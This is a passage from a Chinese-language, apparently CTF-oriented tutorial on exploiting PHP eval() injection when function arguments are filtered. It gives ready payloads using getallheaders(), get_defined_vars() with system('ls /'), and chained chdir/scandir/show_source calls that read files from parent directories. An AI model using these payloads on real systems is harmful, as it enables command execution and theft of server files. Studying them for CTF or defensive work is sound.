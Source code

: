 ```
readfile(session_id(session_start()));
```

### 解法三: getallheaders()

&gt; 执行语句:`eval($GET[&#39;exp&#39;])`

可以返回所有的请求头信息，但是局限于Apache

在请求头最后一行里面加入一个自己定义的参数，把恶意代码放在那

在执行命令时截取最后一行

```
var_dump(end(getallheaders()));
```

### 解法四: get_defined_vars()

&gt; 执行语句:`eval($GET[&#39;exp&#39;])`

相较于解法三，这个普遍性更强，可以回显全局变量

返回数组顺序为`$_GET--&gt;$_POST--&gt;$_COOKIE--&gt;$_FILES`

确认是否有回显：

```
print_r(get_defined_vars());
```

假如说原本只有一个参数a，那么可以多加一个参数b，后面写入恶意语句

```
a=eval(end(current(get_defined_vars())));&amp;b=system(&#39;ls /&#39;);
```

eval换成assert也行

### 解法五: chdir() &amp;array_rand()赌狗读文件

&gt; 实在不能rce，目录遍历文件读取

获取当前目录

```
var_dump(getcwd());
```

结合dirname()列出当前工作目录的父目录中的所有文件和目录

```
var_dump(scandir(dirname(getcwd())));
```

 读上一级文件名

```
?code=show_source(array_rand(array_flip(scandir(dirname(chdir(dirname(getcwd())))))));

?code=show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(getcwd())))))))))));

?code=show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion())))))))))))))));
```
